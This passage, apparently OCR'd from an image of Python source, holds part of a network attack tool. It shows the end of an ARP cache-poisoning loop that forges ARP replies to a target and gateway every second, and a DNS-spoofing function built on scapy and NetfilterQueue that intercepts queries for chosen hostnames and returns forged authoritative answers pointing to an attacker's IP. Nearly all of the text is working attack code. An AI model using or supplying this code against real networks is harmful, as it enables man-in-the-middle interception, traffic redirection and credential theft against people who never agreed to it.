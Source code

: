 ```python{numberLines: true}
):
    # Build the packets
    target_packet = Ether(dst=target_mac) / ARP(
        op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
    )
    router_packet = Ether(dst=gateway_mac) / ARP(
        op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
    )
    while True:
        sendp([target_packet, router_packet], verbose=0, iface=interface)
        # Sleep for 1 second between beacons
        time.sleep(1)


def dns_spoof(
    interface: str,
    hostnames: List[str],
    redirect_ip: str,
    attacker_mac: str,
    target_ip: str,
    target_mac: str,
):
    def dns_spoof(packet):
        # Convert the raw payload into a scapy packet
        data = packet.get_payload()
        scapy_packet = IP(data)
        # Skip the packet if it doesn't have a DNS query response
        if not scapy_packet.haslayer(DNSQR):
            packet.accept()
            return

        # Skip the packet if doesn't have our target hostnames
        qname = scapy_packet.qd.qname.decode()
        if qname not in hostnames:
            packet.accept()
            return

        print(f"Got query for {qname}")

        response_packet = (
            IP(src=scapy_packet[IP].dst, dst=scapy_packet[IP].src)
            / UDP(sport=scapy_packet[UDP].dport, dport=scapy_packet[UDP].sport)
            / DNS(
                qr=1,  # Response
                aa=1,  # Authoritative response
                id=scapy_packet[DNS].id,  # Copying the DNS id from the query
                qd=scapy_packet[DNS].qd,  # Copying the
                an=DNSRR(
                    ttl=10,  # Time To Live of the packet
                    rdata=redirect_ip,  # What IP to direct to
                    rrname=qname,  # The original hostname of the query
                ),
            )
        )
        packet.set_payload(bytes(response_packet))
        packet.accept()

    nfqueue = NetfilterQueue()
    nfqueue.bind(1, dns_spoof)

    try:
        nfqueue.run()
    except KeyboardInterrupt:
```